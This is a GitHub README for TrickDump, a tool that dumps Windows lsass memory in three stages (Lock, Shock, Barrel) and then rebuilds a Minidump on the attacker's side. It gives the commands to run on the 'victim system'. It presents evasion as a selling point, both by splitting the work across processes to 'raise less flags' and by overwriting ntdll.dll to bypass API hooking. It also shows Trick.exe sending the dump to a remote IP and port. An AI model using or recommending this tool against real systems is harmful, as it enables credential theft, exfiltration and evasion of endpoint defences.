 # TrickDump

TrickDump dumps the lsass process without creating a Minidump file, generating instead 3 JSON and 1 ZIP file with the memory region dumps. In three steps:

- **Lock**: Get OS information using RtlGetVersion.

- **Shock**: Get SeDebugPrivilege privilege with NtOpenProcessToken and NtAdjustPrivilegeToken, open a handle with NtGetNextProcess and NtQueryInformationProcess and then get modules information using NtQueryInformationProcess and NtReadVirtualMemory.

- **Barrel**: Get SeDebugPrivilege privilege, open a handle and then get information and dump memory regions using NtQueryVirtualMemory and NtReadVirtualMemory. 


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/trickdump.drawio.png)


In the attack system, use the *create_dump.py* script to generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE] 
```

The benefits of this technique are:

- There is never a valid Minidump file in disk, memory or the network traffic.

- There is not a single program or process executing the whole attack but three separate ones, which may raise less flags.
  - If you already have information about the OS of the target machine you can skip the first step ("Lock").

- The programs only use NTAPIS (this project is a variant of [NativeDump](https://github.com/ricardojoserf/NativeDump)).

- It does not use OpenProcess or NtOpenProcess to get the lsass process handle with the *PROCESS_VM_OPERATION* and *PROCESS_VM_WRITE* access rights.
    
- Each program allows to overwrite the ntdll.dll library ".text" section to bypass API hooking:
  - "disk": Using a DLL already on disk. If a second argument is not used the path is "C:\Windows\System32\ntdll.dll".
  - "knowndlls": Using the KnownDlls folder.
  - "debugproc": Using a process created in debug mode. If a second argument is not used the process is "c:\windows\system32\calc.exe".

It will not work if PPL is enabled, the PEB structure is unreadable or the binaries are not compiled as 64-bit.

It comes in three flavours:

- .NET: The main branch
- Python: The [python-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/python-flavour)
- Golang: The [golang-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/golang-flavour)


-------------------------

## Usage

The programs are executed in the victim system, creating three JSON files (with memory regions information) and one zip file (with each memory region dump).

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```
You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_1.png)

Or use one of the three different overwrite techniques:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_2.png)

Then the Minidump file is generated:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_3.png)

-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc] [IP_ADDRESS] [PORT]
```

You can create the ZIP file locally, optionally using a Ntdll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_5.png)

Or send it to a remote port using the second and third parameter as the IP address and the port:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_6.png)

In both cases you get a ZIP file like this, unzip it and create the Minidump file:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)
